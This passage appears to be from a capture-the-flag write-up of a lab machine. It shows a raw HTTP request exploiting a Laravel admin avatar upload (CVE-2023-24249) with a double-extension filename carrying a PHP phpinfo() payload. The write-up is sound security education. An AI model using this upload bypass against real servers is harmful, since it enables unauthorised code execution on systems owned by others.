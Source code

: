 
When looking through a [blog](https://flyd.uk/post/cve-2023-24249/) containing a proof of concept we can see that we can upload a php page by adding a double extension. So we sent the following request to the server where i try to output the php info page.

```
POST /admin/auth/setting HTTP/1.1
Host: admin.usage.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-PJAX: true
X-PJAX-Container: #pjax-container
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------111958055738807808153872908216
Content-Length: 807
Origin: http://admin.usage.htb
Connection: close
Referer: http://admin.usage.htb/admin/auth/setting
Cookie: XSRF-TOKEN=eyJpdiI6ImQ3aDlkb3JyMjNCT2FZYWhZUkNsbWc9PSIsInZhbHVlIjoiSWZmZTZsdVRXYWtLU0k1R21EdkEzVlEyTnNUV1JzdU1yMlBNS3Nia0FTQ2R0RHhnOXBndERMK0FiNEFYSll2Y3dqV09kS3RCNFpKRGRKTER1dlg2RG9uVElEY1o4R3hRQkpoMmpRYUQ5ci9meGhoTWRKREoyemVVcXVuYVI2L0siLCJtYWMiOiI1MDE5ZmZmMWM2ZDQ5M2Q1ZDk2MThlMDcxNWU2ZmY5OGM1NDNmMTRhNTY2NmY2YzE5OTZhZWRkMGZjOTQ5OGQ0IiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6IlJHeFlQWWVUSzlnNkxIMkJoMkhML0E9PSIsInZhbHVlIjoiOUY4ak5MVVNsczJhT2NQakhoQ2d2RmxXS2xLZm5Yd0I0M3hXejJjanczYnZZOEgwY1JLZzRXOTZLQ3hCeC9NYjNOSkI2TzFyc2cvb2s1T20xTngxdUxuRU8xN3lmQXdLbVRsQ2JwSzE5NnIyVC8rbURnQ0lVbDZCWG54NGFXZjUiLCJtYWMiOiJiNzVlMTllNmJhNzQ0Yjk4MmU1ZjAwODI0MGRmOTQ1ZGVlMDY2MDRiNmRmZTRhZWM4NTRiMzRmNTBkM2E4OTI2IiwidGFnIjoiIn0%3D; remember_admin_59ba36addc2b2f9401580f014c7f58ea4e30989d=eyJpdiI6Ikkrd0xFdXBMUEdHSmx1MHZZcTlmZWc9PSIsInZhbHVlIjoiR2hNaXZBd28xZE1IUG40R3dqWHR5QXFTWk96bnJoZ0crRDJMeXQwaWQ5MStXb3l5RHRGTXhiN3VJK3crUVNlaVJ4OE5BMlp0VmtYc0JXdCtYMXJJbW5MVkJVQ01EcTVNQjVXVDVCUG9VVE9vYVhTNkMwWGZYTzh4NmpYQnpYTExOZUFBNkFpK0docXNRKzVaVHNRMTFnL2ZIVWpTWjhYRkg5dXpXKzlYcHJOcFlWa3M5N2pMS1dyc1pxeURHODd6UnFNa0VXQ2JRb0hkRGRUakMwdW5ZWFpWNUtpOUpVbStzVnJYU2x0UVNaRT0iLCJtYWMiOiJlZWVmZmI4YjhmNWFhYjk0Zjk4MTk5N2I4YTBhNmEwY2Q1MTAyYWMyMzczNWRlNGEwYmNlMjAzODYyM2U1NzQ4IiwidGFnIjoiIn0%3D



-----------------------------111958055738807808153872908216
Content-Disposition: form-data; name="name"

Administrator

-----------------------------111958055738807808153872908216
Content-Disposition: form-data; name="avatar"; filename="user2-160x160.php.jpg.php"
Content-Type: image/jpeg

<?php

// Show all information, defaults to INFO_ALL
phpinfo();


// Show just the module information.
// phpinfo(8) yields identical results.
phpinfo(INFO_MODULES);



?>

-----------------------------111958055738807808153872908216
Content-Disposition: form-data; name="_token"

HoGcwGitrzmhi3YvPGmaJMoDkxGY5Y2HiNlCCuiZ

```